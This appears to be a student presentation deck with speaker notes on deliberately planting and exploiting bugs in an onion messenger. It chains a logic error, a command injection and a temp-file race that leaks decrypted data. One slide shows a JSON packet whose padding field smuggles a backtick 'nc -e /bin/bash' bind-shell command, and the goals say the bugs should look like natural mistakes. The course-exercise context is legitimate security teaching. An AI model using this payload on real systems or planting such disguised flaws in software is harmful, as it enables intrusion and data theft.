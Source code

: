 ### Vulnerability and Exploitation
### (with Onion Messengers)

<br>
<br>

- TA: SeongIl Wi
- DongHyeon Oh

Note:
Hello. this is presenter DongHyeon Oh.
As you know, today subject is Vulerability and Exploitation with Onion Messegners

---

## Goals

<br>

- Logic error : anybody can make a mistake |
- Command injection : victim should not be aware |
- Privacy breach : get a sensitive data |

Note:
In this activity, I determine three goals.
First of all, anybody can make a mistake sometimes in the coding.
So the logic error seems to a natural mistake.
Second, if victim was attacked by attacker, he should not be aware.
The last thing is Get a sensitive data!

---

## Scenario

- Logic error |
- Control-flow hijack(Command injection) |
- Privacy breach |


Note:
Scenario is same with Goals.
Occuring the logic error, Control flow hijacking with command injection and
Privacy breach.
T_T In a broad sense, command injection is control-flow hijack

---

## Protocol

![logic1](images/logic1.png)

Note:
This is our program's protocol.
there are id and bullian. they determine the packet status.
under the this protocol table, this is the code same with protocol.


---?code=assets/logic1.cpp&lang=c++&title=Recv thread source

@[1-5](Key alive)
@[6-10](Key die)
@[11-22](Get my message)
@[50-55](Not my message. So forwarding)
@[50-57](Abnormal input go to else condition)

Note:
This is real source code.
this is key alive, key die, my message, not my message
in the not my message, work foolish.
Because this condition get all abnormal input like this one.
but exactly this program doesn't die when recv this abnormal input.
Just push in to the queue.

---?code=assets/sendthread.cpp&lang=c++&title=Logic error

@[1-4](Send Thread)
@[1-7](General input / Abnormal input)

Note:
If there is a value in the queue, this send thread could work.
And send thread encrypt a padding.
So this abnormal input also ecncrypt the padding!

---?code=assets/cmdi.cpp&lang=c++&title=Command injection

@[1-4](Send Thread)
@[6-13](Encrypt)
@[9,13](Command injection)

Note:
But this Encrypt method has a command injection attack vector.
So we can put together this Logic error and command injection.

---

## Command injection

```
{"id":"1","bullian":"192","recvip":"172.17.0.10",
"padding":"`nc -e /bin/bash -llvp 9999 1>/dev/null 2>/dev/null`"}
```

Note:
We can make this payload for command injection.
ID equal one, bullian is no matter~
and input attack payload in the padding.

---

## Get shell!

<img src="images/shell.png" width=800px height=500px>

Note:
Than we can get the shell!
Next step is Privacy breach

---

## Privacy breach

---?code=assets/privacy.cpp&lang=c++&title=pgpmanager.cpp

@[3,4,7](Make a file)
@[17,19](Delete a file)
@[7,8,17,18,19](There is a term)

Note:
This is Decrypt source code.
make a decrypt file and delete it.
And there is a term between make and delete.
So I can sniffing in this term.

---

## Demo

Note:
I am going to present Demo~

---

## Summary

- Logic error

- Control-flow hijack

- Privacy breach

---

# Q & A

---

## Appendix1

- Logic error

```
A bug in a program that causes it to operate incorrectly,
but not to terminate abnormally (or crash).

-> Send thread is operate incorrectly,
   but not to terminate abnormally!
```

---

## Appendix2

- README.md

- There are detail explanation in README.md
```
취약점 발생 원리 요약
취약점 발생 원리 상세 설명
Installation
Exploit usages
Examples
```
